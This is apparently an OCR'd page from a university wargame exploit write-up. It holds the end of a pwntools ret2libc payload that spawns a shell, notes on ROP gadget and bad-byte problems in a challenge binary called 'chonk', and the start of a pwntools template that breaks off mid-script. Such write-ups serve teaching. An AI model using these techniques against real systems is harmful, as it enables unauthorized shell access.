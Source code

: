 ```
offset = cyclic_find(0x6261616a)
payload = fit({
    offset: system_target,
    offset + 4: p32(0),
    offset + 8: p32(binsh_target)
})
p.sendline(payload)

p.interactive()
```

chonk
===============================================================
Flag:
General overview of problems faced
---------------------------------------------------------------
The binary is MASSIVE ... at least compared to our usual wargames
Script/Command used
Some simple gadgets such as pop edx; ret; are not available.
Triggering segmentation faults in random functions such as do_derivation and mem2chunk_check.
Need to avoid badbytes such as 0a from the pop eax; ret; so have to use alternative gadgets.
--------------------------------------------------------------
```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template
from pwn import *

# Set up pwntools for the correct architecture
context.update(arch='i386')
exe = './chonk' #Change this

PROGNAME = exe
REMOTE = "comp6447.wtf" #Change this
REMOTEPORT = 29224 #Change this
global p
global e
global global_timeout

e = ELF(PROGNAME)

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

if args.REMOTE:
```